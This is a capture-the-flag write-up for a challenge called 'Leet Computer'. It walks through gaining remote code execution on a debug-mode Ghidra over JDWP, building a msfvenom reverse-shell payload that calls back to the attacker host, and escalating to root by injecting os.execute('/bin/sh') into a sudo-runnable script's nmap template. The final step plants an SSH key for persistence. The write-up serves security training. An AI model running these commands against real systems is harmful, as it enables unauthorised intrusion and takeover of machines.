







# Leet Computer

## Problem

One of the attacker is still in the airport hall, and it seems that he is still connected to the airport wifi ! Get a root shell on its machine to continue your investigation.

This challenge will give you access to another network.

by Masterfox

## Solution

### Foothold

Using nmap, we find that `10.35.2.135` is running JDWP on port 18001.

JDWP allows us to debug java applications remotely. To attach to the remote debugger: `jdb -attach 10.35.2.135:18001`

```text
> classpath
```

We see that Ghidra is being debugged. When Ghidra is launched in debug mode, a well-known vulnerability allows remote attackers to achieve RCE through the JDWP, which is opened on all interfaces.



```text
> classes
```

We see that the class `org.apache.logging.log4j.core.util.WatchManager$WatchRunnable` is used.



We will set a breakpoint at this class: `stop in org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run()`

The breakpoint will soon be hit. We can then use `print new java.lang.Runtime().exec("COMMAND")` to execute arbitrary commands.

### Initial Access

Now, we can make a reverse shell ELF payload with `msfvenom`.

`msfvenom -p linux/x86/shell_reverse_tcp LHOST=172.16.24.163 LPORT=4242 -f elf >reverse.elf`

Run a Python HTTP server, and use curl on the victim machine to download the ELF payload.



Then, execute the payload.


Catch the reverse shell on our Kali machine.



Upgrade to a fully-interactive TTY: `python3 -c 'import pty;pty.spawn("/bin/bash")'`

### Privilege Escalation

We can find some interesting files on e11i0t's home directory.



This gives us the address range for the dev network.

There is also a Python script `mail-scan.py` that does a `nmap` scan. We can see in the below code snippet that a temporary `.nse` file is created and run. We can control the `--mail` parameter, which is reflected into the `TEMPLATE_NSE`.

```python
parser = argparse.ArgumentParser()
parser.add_argument('--ip', required=True, help='IP of the Dovecot to attacc')
parser.add_argument('--mail', required=True, help='Mail address to check')
args = parser.parse_args()

# Arguments validation
ipregex = re.compile('^([0-9]{3}\.){3}[0-9]{3}$')
if not ipregex.match(args.ip):
  print("Error: IP argument is invalid")
  exit(1)

f = NamedTemporaryFile(suffix=".nse")
with open(f.name, "w") as tmp_file:
    tmp_file.write(TEMPLATE_NSE.format(mail_address=args.mail))
    print(TEMPLATE_NSE.format(mail_address=args.mail))
system("nmap --script={} '{}'".format(tmp_file.name, args.ip))
```

Here is the location where the mail parameter is injected:

```text
portrule = shortport.port_or_service({{25, 465, 587}},
                {{"smtp", "smtps", "submission"}})


action = function(host, port)
  local cmd = stdnse.get_script_args(SCRIPT_NAME..".cmd") or "uname"
  --Prepare payload
  cmd = string.gsub(cmd, " ", "${{IFS}}")
  cmd = string.gsub(cmd, ";", "``")

  local user = stdnse.get_script_args(SCRIPT_NAME..".user") or nil
  local pwd = stdnse.get_script_args(SCRIPT_NAME..".pwd") or nil
  local from = stdnse.get_script_args(SCRIPT_NAME..".from") or "nmap@"..smtp.get_domain(host)
  local to = "{mail_address}"
  local conn_timeout = stdnse.get_script_args(SCRIPT_NAME..".timeout") or 8000
  local smtp_domain = stdnse.get_script_args(SCRIPT_NAME..".domain") or smtp.get_domain(host)
```

From the LinPEAS output, we also found that the `mail-scan.py` script can be executed as `sudo` with `NOPASSWD`.



From GTFOBins, I found that we can use `os.execute("/bin/sh")` to spawn a root shell since we are running as root. All that's left is to deal with the quotes on both sides of `local to = "{mail_address}"`.

If we use `"; os.execute("/bin/sh"); local var="` as the mail paramter, we inject the following into the nmap script:

```text
local to = ""; os.execute("/bin/sh"); local var=""
```

Hence, we get a shell as root! Note that the `action` function only runs if any ports in `{25, 465, 587}` are discovered, however, so we would need to use `nc -nlvp 465` to open up the port on our Kali machine in order to trigger the `action` function and our `os.execute()` command.



Subsequently, we can use `ssh-keygen` to generate new key pairs for SSH, and add the public key to `/root/.ssh/authorized_keys` for easier pivoting. Now we can directly SSH into the root shell.

## References

* GitHub issue: [https://github.com/NationalSecurityAgency/ghidra/issues/6](https://github.com/NationalSecurityAgency/ghidra/issues/6)
* PoC: [https://thewhiteh4t.github.io/2019/03/16/Ghidra-v9.0-Remote-Code-Execution-PoC-Windows-10-1809.html](https://thewhiteh4t.github.io/2019/03/16/Ghidra-v9.0-Remote-Code-Execution-PoC-Windows-10-1809.html)
* GTFOBins: [https://gtfobins.github.io/gtfobins/nmap/](https://gtfobins.github.io/gtfobins/nmap/)

